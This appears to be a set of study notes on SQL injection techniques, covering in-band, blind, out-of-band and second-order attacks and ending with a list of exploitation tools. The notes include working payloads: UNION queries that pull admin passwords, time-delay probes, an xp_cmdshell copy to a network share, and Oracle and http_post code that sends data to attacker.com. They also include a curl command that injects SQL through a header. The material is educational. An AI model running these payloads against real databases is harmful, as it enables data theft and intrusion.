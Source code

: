 ![[62a7685ca6e7ce005d3f3afe-1716989638556.svg]]
#### In-band SQL Injection
- **Error-Based SQL Injection**: The attacker manipulates the SQL query to produce error messages from the database. These error messages often contain information about the database structure, which can be used to exploit the database further. Example: `SELECT * FROM users WHERE id = 1 AND 1=CONVERT(int, (SELECT @@version))`. If the database version is returned in the error message, it reveals information about the database.
- **Union-Based SQL Injection**: The attacker uses the UNION SQL operator to combine the results of two or more SELECT statements into a single result, thereby retrieving data from other tables. Example: `SELECT name, email FROM users WHERE id = 1 UNION ALL SELECT username, password FROM admin`.

#### Inferential (Blind) SQL Injection
- **Boolean-Based Blind SQL Injection**: The attacker sends an SQL query to the database, forcing the application to return a different result based on a true or false condition. By analysing the application’s response, the attacker can infer whether the payload was true or false. Example: `SELECT * FROM users WHERE id = 1 AND 1=1 (true condition) versus SELECT * FROM users WHERE id = 1 AND 1=2 (false condition)`. The attacker can infer the result if the page content or behaviour changes based on the condition.
- **Time-Based Blind SQL Injection**: The attacker sends an SQL query to the database, which delays the response for a specified time if the condition is true. By measuring the response time, the attacker can infer whether the condition is true or false. For example, `SELECT * FROM users WHERE id = 1; IF (1=1) WAITFOR DELAY '00:00:05'--`. If the response is delayed by 5 seconds, the attacker can infer that the condition was true.

####  Out-of-band SQL Injection
**MySQL and MariaDB**
In MySQL or MariaDB, Out-of-band SQL injection can be achieved using [SELECT ... INTO OUTFILE](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) or [load_file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file) command. This command allows an attacker to write the results of a query to a file on the server's filesystem. For example:
 `SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';`
 
**Microsoft SQL Server (MSSQL)**
In MSSQL, Out-of-band SQL injection can be performed using features like [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), which allows the execution of shell commands directly from SQL queries. This can be leveraged to write data to a file accessible via a network share:
 `EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';`
Alternatively, `OPENROWSET` or `BULK INSERT` can be used to interact with external data sources, facilitating data exfiltration

**Oracle**  
In Oracle databases, Out-of-band SQL injection can be executed using the [UTL_HTTP](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_HTTP.html) or [UTL_FILE](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_FILE.html) packages. For instance, the UTL_HTTP package can be used to send HTTP requests with sensitive data:
 ```sql
DECLARE   
	req UTL_HTTP.REQ;   
	resp UTL_HTTP.RESP;
BEGIN   
	req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);   
	UTL_HTTP.GET_RESPONSE(req); 
END;
```

#### Examples of Out-of-band Techniques
**HTTP Requests** 
If configured or external scripts or User-Defined Functions.
`SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;`.
**DNS Exfiltration**
If configured or external scripts or User-Defined Functions.
Perform DNS lookup.
**SMB Exfiltration**
`SELECT sensitive_data INTO OUTFILE '\\\\attack-machine-ip-with-smb-server\\logs\\out.txt';`

**Important Consideration**
It is important to note that the MySQL system variable `secure_file_priv` may be set. When set, this variable contains a directory pathname, and MySQL will only allow files to be written to this specified directory. This security measure helps mitigate the risk of unauthorised file operations. 
- **When secure_file_priv is Set**: MySQL will restrict file operations such as **INTO OUTFILE** to the specified directory. This means attackers can only write files to this directory, limiting their ability to exfiltrate data to arbitrary locations.
- **When secure_file_priv is Empty**: If the `secure_file_priv` variable is empty, MySQL does not impose any directory restrictions, allowing files to be written to any directory accessible by the MySQL server process. This configuration poses a higher risk as it provides more flexibility for attackers.

#### Second-order SQL injection (stored)

###### Add SQL query to a HTTP header (e.g. `User-agent`) which a stored in `logs` table.
```shell
curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://vuln-machine-ip/httpagent/
```

##### Store procedures

##### Inject into XML or JSON

##### Automation
- **[SQLMap](https://github.com/sqlmapproject/sqlmap)**: SQLMap is an open-source tool that automates the process of detecting and exploiting SQL Injection vulnerabilities in web applications. It supports a wide range of databases and provides extensive options for both identification and exploitation. You can learn more about the tool [here](https://tryhackme.com/r/room/sqlmap).
- **[SQLNinja](https://github.com/xxgrunge/sqlninja)**: SQLNinja is a tool specifically designed to exploit SQL Injection vulnerabilities in web applications that use Microsoft SQL Server as the backend database. It automates various stages of exploitation, including database fingerprinting and data extraction. 
- [**JSQL Injection**](https://github.com/ron190/jsql-injection): A Java library focused on detecting SQL injection vulnerabilities within Java applications. It supports various types of SQL Injection attacks and provides a range of options for extracting data and taking control of the database.
- **[BBQSQL](https://github.com/CiscoCXSecurity/bbqsql)**: BBQSQL is a Blind SQL Injection exploitation framework designed to be simple and highly effective for automated exploitation of Blind SQL Injection vulnerabilities.